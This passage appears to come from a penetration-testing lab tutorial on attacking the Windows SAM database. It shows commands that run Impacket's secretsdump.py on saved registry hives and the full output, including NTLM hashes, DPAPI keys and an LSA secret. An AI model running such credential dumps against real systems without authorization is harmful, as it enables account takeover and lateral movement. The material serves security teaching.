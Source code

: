 
## Dumping Hashes with Impacket's secretsdump.py

One incredibly useful tool we can use to dump the hashes offline is Impacket's `secretsdump.py`. Impacket can be found on most modern penetration testing distributions. We can check for it by using `locate` on a Linux-based system:

#### Locating secretsdump.py

Attacking SAM

```shell-session
frank-106@htb[/htb]$ locate secretsdump 
```

Using secretsdump.py is a simple process. All we must do is run secretsdump.py using Python, then specify each hive file we retrieved from the target host.

#### Running secretsdump.py

Attacking SAM

```shell-session
frank-106@htb[/htb]$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x4d8c7cff8a543fbf245a363d2ffce518
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:3dd5a5ef0ed25b8d6add8b2805cce06b:::
defaultuser0:1000:aad3b435b51404eeaad3b435b51404ee:683b72db605d064397cf503802b51857:::
bob:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
sam:1002:aad3b435b51404eeaad3b435b51404ee:6f8c3f4d3869a10f3b4f0522f537fd33:::
rocky:1003:aad3b435b51404eeaad3b435b51404ee:184ecdda8cf1dd238d438c4aea4d560d:::
ITlocal:1004:aad3b435b51404eeaad3b435b51404ee:f7eb9c06fafaa23c4bcf22ba6781c1e2:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xb1e1744d2dc4403f9fb0420d84c3299ba28f0643
dpapi_userkey:0x7995f82c5de363cc012ca6094d381671506fd362
[*] NL$KM 
 0000   D7 0A F4 B9 1E 3E 77 34  94 8F C4 7D AC 8F 60 69   .....>w4...}..`i
 0010   52 E1 2B 74 FF B2 08 5F  59 FE 32 19 D6 A7 2C F8   R.+t..._Y.2...,.
 0020   E2 A4 80 E0 0F 3D F8 48  44 98 87 E1 C9 CD 4B 28   .....=.HD.....K(
 0030   9B 7B 8B BF 3D 59 DB 90  D8 C7 AB 62 93 30 6A 42   .{..=Y.....b.0jB
NL$KM:d70af4b91e3e7734948fc47dac8f606952e12b74ffb2085f59fe3219d6a72cf8e2a480e00f3df848449887e1c9cd4b289b7b8bbf3d59db90d8c7ab6293306a42
[*] Cleaning up... 
```
